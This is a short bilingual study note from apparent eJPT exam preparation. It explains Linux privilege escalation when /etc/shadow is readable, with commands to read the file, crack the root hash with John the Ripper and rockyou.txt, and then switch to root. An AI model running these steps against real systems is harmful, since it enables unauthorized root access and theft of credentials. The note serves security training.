 Archivo Legible: /etc/shadow

- El archivo /etc/shadow contiene hashes de contraseñas de usuario y normalmente sólo puede leerlo el usuario root.

```
   ls -l /etc/shadow
```

- Vea el contenido del archivo /etc/shadow:

```
	cat /etc/shadow
```

Cada línea del archivo representa un usuario. El hash de contraseña de un usuario (si tiene uno) se puede encontrar entre el primer y segundo dos puntos (:) de cada línea.

- Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

- Switch to the root user, using the cracked password:

```
su root
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/Permisos de archivos débiles- Escribible]]